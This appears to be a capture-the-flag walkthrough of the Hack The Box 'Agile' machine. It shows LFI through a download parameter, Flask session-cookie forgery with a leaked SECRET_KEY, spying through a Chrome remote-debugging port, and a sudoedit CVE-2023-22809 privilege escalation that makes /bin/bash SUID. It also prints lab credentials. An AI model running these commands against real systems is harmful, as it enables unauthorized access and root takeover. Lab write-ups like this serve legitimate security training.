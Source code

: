 # Agile

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.172.106
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-06 09:31 EST
Nmap scan report for 10.129.172.106
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We need to add `superpass.htb` to our `/etc/hosts` file to access port 80.

### SuperPassword --> LFI

The website advertised a password manager.

<figure><img src="../../.gitbook/assets/image (4) (1) (7).png" alt=""><figcaption></figcaption></figure>

I tested by registering a user to see what functionalities this application has. I registed a username and got an error, revealing that this is a Flask application. Not sure if this was supposed to happen

<figure><img src="../../.gitbook/assets/image (21) (2) (4).png" alt=""><figcaption></figcaption></figure>

Anyways, when I tried again it worked and brought me to a dashboard where I can add a password and Export passwords.

<figure><img src="../../.gitbook/assets/image (20) (8).png" alt=""><figcaption></figcaption></figure>

The Export function looks rather exploitable. I added some passwords, then tried to download the file and was presented with this HTTP request:

```http
GET /download?fn=newuser_export_611199da8a.csv HTTP/1.1
Host: superpass.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: remember_token=9|8f50cc62e035672203937ef350c45d6a6780afafd9114b725dfb34ffa10cd42e92e484635b44b3f13d76ce1f6af818f2501684844daf93217e66ec4af933165f; session=.eJwlzjEOwzAIAMC_MHewgYDJZyJiQO2aNFPVvzdS51vuA1sdeT5hfR9XPmB7BaygREnUXHNahqQzMpG1bqUkrMWFSN3CzW4tHTI6Kk5H8d0jVaa6OZlbaFMxDqlR0tBmYx6Yfei-hA0WGr4IlfalocRu0wTuyHXm8d8YfH9o4y4B.ZAX6Tg.txUnjeEEeD_3BB80vD96et6vwwU
Upgrade-Insecure-Requests: 1
```

The `fn` paramete was vulnerable to LFI.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

We find 4 users, `runner`, `corum`, `edwards`, and `dev_admin`. We know that this is a Flask application, so the source code for `app.py` is probably in some `/app/app/main` directory or something along those lines.  Some testing revealed that it was located in `../app/app/superpass/app.py`.

We can grab the SECRET\_KEY variable from here and be able to spoof our own cookies using `flask-unsign`.

```
app.config['SECRET_KEY'] = 'MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD'
```

### Cookie Spoofing --> SSH Creds

Now that we have the SECRET\_KEY, we can decrypt the cookie.

{% code overflow="wrap" %}
```
$ flask-unsign --decode --cookie '.eJwlzjEOwzAIAMC_MHewgYDJZyJiQO2aNFPVvzdS51vuA1sdeT5hfR9XPmB7BaygREnUXHNahqQzMpG1bqUkrMWFSN3CzW4tHTI6Kk5H8d0jVaa6OZlbaFMxDqlR0tBmYx6Yfei-hA0WGr4IlfalocRu0wTuyHXm8d8YfH9o4y4B.ZAX6Tg.txUnjeEEeD_3BB80vD96et6vwwU' --secret 'MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD'
{'_fresh': True, '_id': '733e330a7ec9ed6ea424339019f73647f4f22319da996eaf78681272ca26abade76c7a9a39a9d707694d6f8f6029c04482e187b5d984638a563f715026db9c96', '_user_id': '9'}
```
{% endcode %}

Now, we can change the `_user_id` parameter and hopefully login as other users with stored passwords. We can keep changing the user ID to anything we want and keep getting different passwords. Here are some interesting ones:

```html
<td>hackthebox.com</td>
    <td>0xdf</td>
    <td>762b430d32eea2f12970</td>
<td>mgoblog.com</td>
    <td>0xdf</td>
    <td>5b133f7a6a1c180646cb</td>
<td>agile</td>
    <td>corum</td>
    <td>5db7caa1d13cc37c9fc2</td>
```

That last one for `corum` is a valid password for SSH.

<figure><img src="../../.gitbook/assets/image (5) (8).png" alt=""><figcaption></figcaption></figure>

Then we can easily grab the user flag.

## Privilege Escalation

### Chrome Debugging --> Edwards

I ran a LinPEAS scan and thsi was the one thing that stood out the most:

{% code overflow="wrap" %}
```
runner      3486  0.1  2.5 34023392 103408 ?     Sl   14:49   0:00                      _ /usr/bin/google-chrome --allow-pre-commit-input --crash-dumps-dir=/tmp --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-gpu --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-blink-features=ShadowDOMV0 --enable-logging --headless --log-level=0 --no-first-run --no-service-autorun --password-store=basic --remote-debugging-port=41829 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.com.google.Chrome.MLKYLq --window-size=1420,1080 data:
```
{% endcode %}

It would appear that there is a --remote-debugging-port being used. Essentially, it means that this port is open and running Chrome. With credentials for SSH, we can port forward this and perhaps access it from our machine to see what the user is doing.

So we can first port forward this thing using `ssh`.

```bash
ssh -L 41829:127.0.0.1:41829 corum@superpass.htb
```

Afterwards, we can use Burpsuite's Chromium browser (that is in-built) to access this thing. This resource was rather helpful:

{% embed url="https://developers.google.com/cast/docs/debugging/remote_debugger" %}

Just add `localhost:41829` to the Discover Network Targets portion, and we will pick up on the target.

<figure><img src="../../.gitbook/assets/image (7) (7).png" alt=""><figcaption></figcaption></figure>

We can inspect this to basically spy on the user.&#x20;

<figure><img src="../../.gitbook/assets/image (10) (1) (5).png" alt=""><figcaption></figcaption></figure>

I visited the `/vault` directory and found some secret credentials.

<figure><img src="../../.gitbook/assets/image (227).png" alt=""><figcaption></figcaption></figure>

Then, we can `su` to `edwards`.

### Sudoedit CVE-2023-22809

Checking `edwards` `sudo` privileges, we see this:

```bash
edwards@agile:/home/corum$ sudo -l
[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

In short, we edit some files as `dev_admin`. I read files and found some credentials

{% code overflow="wrap" %}
```
# creds.txt
edwards:1d7ffjwrx#$d6qn!9nndqgde4
# config_test.json
"SQL_URI": "mysql+pymysql://superpasstester:VUO8A2c2#3FnLq3*a9DX1U@localhost/superpasstest"
```
{% endcode %}

However, the credentials here lead to dead ends, with the SQL database having nothing of interest. I ran a `pspy64` to see if there were any exploitable processes. This one line looked rather suspicious because `dev_admin` had write access to it:

{% code overflow="wrap" %}
```
2023/03/06 15:16:01 CMD: UID=0    PID=37141  | /bin/bash -c source /app/venv/bin/activate 

edwards@agile:/tmp$ ls -la /app/venv/bin/activate
-rw-rw-r-- 1 root dev_admin 1976 Mar  6 15:15 /app/venv/bin/activate
```
{% endcode %}

Checking the `sudo` version online, I found that it was vulnerable to CVE-2023-22809.

In short, this exploit allows us to write in **any file we want** using `sudoedit` despite the restrictions we have in place. The `activate` file I found earlier was a `bash` script being executed by root. So, all we need to do is append some commands to it to make `/bin/bash` an SUID binary.

{% embed url="https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf" %}

Following the PoC, we just /app/venv/bin/activateave to execute these commands:

```bash
export EDITOR='vim -- /app/venv/bin/activate'
sudo -u dev_admin sudoedit /app/config_test.json
```

This opens up the `activate` file and we are free to edit it. We can add `chmod u+s /bin/bash` into it. Then we can easily become `root`.

<figure><img src="../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>
